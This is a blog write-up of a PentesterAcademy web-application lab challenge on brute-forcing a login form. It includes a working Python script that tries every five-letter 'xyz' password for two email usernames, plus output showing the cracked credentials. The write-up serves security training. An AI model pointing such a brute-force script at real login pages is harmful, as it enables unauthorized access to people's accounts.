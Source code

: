 ```yaml
---
layout: post
title: "PentesterAcademy WAP Challenge 1: Form Bruteforcing"
date: 2014-07-27 00:31:26 +0300
comments: true
categories: [writeups, penetration testing, python]
keywords: bruteforce, pentester academy challenge 1, pentester academy wap challenge 1, pentesteracademy
description: Solution for PentesterAcademy WAP Challenge 1
---
```


[PentesterAcademy](http://www.pentesteracademy.com) has a section dedicated to web application security challenges. In this post I will present my solution to the first challenge, which requires form bruteforcing to authenticate on the provided web page:

http://pentesteracademylab.appspot.com/lab/webapp/1

<!-- more -->

This is how the page looks like:

{% img center /images/wap1.png 'wap1' 'wap1' %}

The provided hint should help with writing a bruteforce script:

**Hint:**

**Company Domain: PentesterAcademy.com**

**Usernames: jack, admin**

**Password Complexity: 5 characters and uses only x,y,z lowercase. Password examples - xxyyz, xyzxy, xyxxx etc.**

So, what we need here is to test the login with usernames of the form *user@companydomain* and 5 character passwords constructed from the given characters.

I wrote a Python script to do that:

``` python
import requests
import itertools


url = 'http://pentesteracademylab.appspot.com/lab/webapp/1'

emails = ['jack@pentesteracademy.com', \
          'admin@pentesteracademy.com']



def buildPassList(iterables, r):
    passlist = []
    for word in itertools.product(iterables, repeat = r):
        passlist.append(''.join(word))
    return passlist

passlist = buildPassList('xyz', 5)

count = 0
fail = 'Failed! Please try again!'
for user in emails:
    for passwd in passlist:
        print 'Try %d - email: %s password: %s' % (count, user, passwd)
        payload = {'email': user, 'password': passwd}
        req = requests.get(url, params=payload)
        if fail not in req.content:
            print payload
            print req.content
            break          
        count += 1
```

I used the requests module, which is very handy for all sorts of URL interaction. To figure out the parameter names and how are they passed to the login form, I tested with some garbage values and saw the URL looked like this:

``` plain
http://pentesteracademylab.appspot.com/lab/webapp/1?email=test&password=xyz
```

From that I knew to use the GET request in the code. Also, when you fail, you get a message stating that you should try again, so I looked for that in the response from the server, and I concluded that if it were absent, it means that the login was successful. When you complete the challenge, there is also a message that says "Well done! This challenge has been cracked!"

Here is a snippet of the output:

``` plain
Try 0 - email: jack@pentesteracademy.com password: xxxxx
Try 1 - email: jack@pentesteracademy.com password: xxxxy
...
Try 477 - email: admin@pentesteracademy.com password: zzzxx
Try 478 - email: admin@pentesteracademy.com password: zzzxy
{'password': 'zzzxy', 'email': 'admin@pentesteracademy.com'}
```

Today's fortune cookie:

> While you recently had your problems on the run, they've regrouped and
> are making another attack.


